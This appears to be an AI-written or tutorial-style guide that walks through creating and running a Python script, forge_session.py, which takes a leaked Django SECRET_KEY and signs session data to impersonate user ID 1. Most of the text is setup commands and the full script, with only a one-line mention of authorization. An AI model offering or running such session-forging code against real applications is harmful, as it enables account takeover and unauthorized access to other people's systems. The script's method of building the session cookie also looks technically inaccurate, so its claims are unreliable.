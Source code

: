 To run the script that signs session data, you can place it in any folder that has access to your Django environment and dependencies. Here are the steps to properly run the script:

```bash
python3 -m venv .venv
source .venv/bin/activate

pip install --upgrade pip
pip install django
pip install -r requirements.txt

python3 manage.py runserver
python3 forge_session.py
```

### Steps to Run the Script

1. **Ensure Django Environment**:
   - Make sure you have a working Django environment with all dependencies installed. This includes Django and any other required packages.

2. **Place the Script**:
   - You can place the script in any directory, but for convenience and to keep things organized, it’s a good idea to place it within your Django project directory.

3. **Create the Script File**:
   - Create a new Python file in your Django project directory. For example, you can name it `forge_session.py`.

4. **Activate Virtual Environment**:
   - If you are using a virtual environment, activate it. This ensures that the script runs with the correct dependencies.

   ```bash
   source path/to/your/virtualenv/bin/activate
   ```

5. **Run the Script**:
   - Navigate to the directory where the script is located and run it using Python.

   ```bash
   cd path/to/your/django/project
   python forge_session.py
   ```

### Example Directory Structure

Here’s an example of how your project directory might look:

```
my_django_project/
├── manage.py
├── my_django_project/
│   ├── __init__.py
│   ├── settings.py
│   ├── urls.py
│   └── wsgi.py
├── app_name/
│   ├── __init__.py
│   ├── admin.py
│   ├── apps.py
│   ├── models.py
│   ├── views.py
│   └── ...
├── forge_session.py  # <- Place your script here
└── ...
```

### Content of `forge_session.py`

Here’s the full content of the `forge_session.py` script:

```python
import json
import base64
from django.core.signing import Signer

# The SECRET_KEY from the leaked settings
SECRET_KEY = 'your-leaked-secret-key'

# Sample session data
session_data = {
    '_auth_user_id': '1',  # ID of the user to impersonate
    '_auth_user_backend': 'django.contrib.auth.backends.ModelBackend',
}

# Serialize and sign the session data
session_data_json = json.dumps(session_data)
session_data_encoded = base64.b64encode(session_data_json.encode()).decode()
signer = Signer(key=SECRET_KEY)
signed_session_data = signer.sign(session_data_encoded)

print(f'Session Cookie: {signed_session_data}')
```

### Running the Script

1. **Navigate to the Project Directory**:
   ```bash
   cd path/to/your/django/project
   ```

2. **Run the Script**:
   ```bash
   python forge_session.py
   ```

### Important Notes

- **Security**: Running this script poses a significant security risk. Ensure that you understand the implications and that you have authorization to perform such actions.
- **Environment**: Make sure your environment variables and settings are correctly configured to avoid any unintended consequences.
- **Dependencies**: Ensure that all necessary dependencies, especially Django, are installed in your environment.

By following these steps, you can run the script to forge a session cookie using the leaked `SECRET_KEY`.
